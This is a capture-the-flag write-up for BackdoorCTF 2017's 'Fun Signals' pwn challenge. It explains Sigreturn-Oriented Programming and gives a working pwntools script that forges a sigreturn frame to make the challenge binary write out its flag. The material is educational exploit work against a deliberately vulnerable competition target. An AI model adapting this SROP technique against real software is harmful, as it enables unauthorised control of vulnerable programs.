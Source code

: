 ```yaml
---
title: "BackdoorCTF 2017 - Fun Signals"
layout: post
date: 2017-10-18 5:21
tag:
- BackdoorCTF2017
- Pwn
- Backdoor
writeup: true
star: false
points: 250
category: Pwn
---
```


![Backdoor Logo](/assets/images/backdoorctf16/logo.png)

**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 250

#### Description:

> Gr33n5h4d0w had an argument with h3rcul35 while they were studying Signals and Systems. So, h3rcul35 gave him a binary and said "Signals control Computer. Give me the flag". Can you help gr33n5h4d0w win his argument by helping him get the flag.

> nc hack.bckdr.in 9034

> [player_bin](/assets/binaries/backdoorctf17/funsignals_player_bin)


## Write-up

This is a very interesting problem and introduced me to a new kind of attack - [Sigreturn-Oriented Programming](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) (SROP). SROP is a technique similar to Return-Oriented Programming (ROP) and is a useful attack vector when the memory is non-executable and you can't use code injection. This requires the attacker to be able to control the call stack using, for example, a buffer overflow.

When the kernel delivers a signal it creates a frame on the stack where it stores the current context (includes register values among other things). On a sigreturn call the values from the stack are read and put back into the registers. An attacker controllling the stack can modify these values and cause considerable damage.

### The disassembly

![Disasembly](/assets/images/backdoorctf17/funsignals_disas.png)

The flag is in the binary.... on the server.

Anyways, the first call is:

`read(0, $esp, 0x400)`

1024(`0x400`) bytes of input is being read from `stdin` and put into the buffer pointed to by `$esp`. Since `esp` is the stack pointer, our input is directly being written on the stack. No space has been allocated for any form of variable.

The next call is:

`sigreturn`

As already explain, `sigreturn` will read the sigreturn frame from the stack. But the stack has our input.
We control the frame! That's a lot of power really. We can jump wherever with whatever values in the registers.

**The question is where to jump?**

Since the aim is to get the flag, we need to write it out. Hence the obvious decision is to do a syscall to WRITE.

But how do we do a syscall?

There is a portion of code labelled `syscall`, that's where we need to jump with the proper values in registers to print the flag. Let's get down to writing a python script.

### The Script

Luckily `pwntools` already had functionality to create Sigreturn frames.

```python

from pwn import *

binary = ELF('player_bin') # Load the binary

context.clear()
context.arch = "amd64" # Architecture

## Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write # System call identifier for write()
frame.rdi = constants.STDOUT_FILENO
frame.rsi = binary.symbols['flag'] # Address of `flag` symbol
frame.rdx = 50 # Number of characters to write. Goes as a parameter to write()
frame.rip = binary.symbols['syscall'] # Start execution from the address labelled `syscall`

r = remote('hack.bckdr.in', 9034)
r.send(str(frame)) # Send the custom frame to overwrite the real one
r.interactive()
```

This will connect to the server, extract the flag and print it.

**Note:** I randomly decided to get 50 characters since we don't know the flag size beforehand. The flag was actually smaller than that. Anything larger than the flag size would've worked.

Cheers!

**Go through other [writeups](../) for more such fun challenges.**
